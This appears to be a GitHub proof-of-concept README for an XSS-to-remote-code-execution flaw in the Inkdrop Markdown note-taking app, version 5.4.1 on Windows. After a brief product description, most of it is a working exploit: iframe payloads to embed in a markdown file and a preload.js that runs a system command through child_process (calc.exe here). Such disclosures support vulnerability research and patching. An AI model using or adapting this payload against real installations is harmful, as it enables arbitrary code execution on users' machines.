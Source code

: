 # inkdrop XSS to RCE Poc

**Product Presentation:**

Solely designed for Markdown to improve your dev workflow.
Get a low-friction personal note-taking workflow and accomplish more. With your notes well-organized effortlessly, you can stay focused on doing your best work.

**Product Website:**
https://www.inkdrop.app/

**Product download Address:**
https://d3ip0rje8grhnl.cloudfront.net/v5.4.1/Inkdrop-demo-5.4.1-Windows.zip

**Version:**
5.4.1

**Payload:**
write payload into markdown file,'preload.js' need absolute address to introduce.

```
<iframe src=javascript:alert('xss')></iframe>
<iframe src=1 preload="C:\Users\root\Downloads\Inkdrop-demo-5.4.1-Windows\resources\app\preload.js"></iframe> # absolute path
```

preload.js:
```
require('child_process').exec('calc.exe')
```

[POC video](https://www.youtube.com/watch?v=w-2ueZzCQ8E)
